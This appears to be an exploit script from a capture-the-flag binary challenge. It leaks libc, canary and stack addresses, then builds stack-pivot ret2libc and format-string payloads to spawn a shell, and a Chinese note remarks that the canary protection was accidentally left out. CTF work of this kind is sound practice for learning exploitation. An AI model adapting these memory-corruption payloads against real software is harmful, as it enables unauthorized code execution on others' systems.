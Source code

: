 ```python

#leak libc
puts_addr=int(ru("bbb",True),16)
puts_addr=puts_addr-362
libcbase=puts_addr-libc.sym['puts']
print "libcbase:"+hex(libcbase)
libc.address=libcbase

#leak canary
canary=int(ru('ccc',True),16)
print 'canary:'+hex(canary)

#leak stack
target=int(ru('ddd',True),16)
target-=0x90#这里需要gdb调试观察
print 'target:'+hex(target)

#1:stack pivot+ret2libc
'''
payload=p64(1)
payload+=p64(pie+pop_rdi)
payload+=p64(libc.search('/bin/sh').next())
payload+=p64(libc.sym['system'])
payload+='\x90'*(0x68-len(payload))
payload+=p64(canary)
payload+=p64(target)
payload+=p64(pie+leave_ret)
write(payload)
shell()
'''
'''
#2:fmtstr+stack pivot+backdoor
payload='%666c%8$hn'
payload+=(16-len(payload))*'a'
payload+=p64(pie+point)
ask(payload)
payload=p64(1)
payload+=p64(pie+pop_rdi)
payload+=p64(30)
payload+=p64(pie+backdoor)
payload+='\x90'*(0x68-len(payload))
payload+=p64(canary)
payload+=p64(target)
payload+=p64(pie+leave_ret)
write(payload)
print io.recv()
'''
```

PS：本题原来是开了canary防护的，后来重新编译的时候忘记了加，因此exp中还有leak canary这一步。
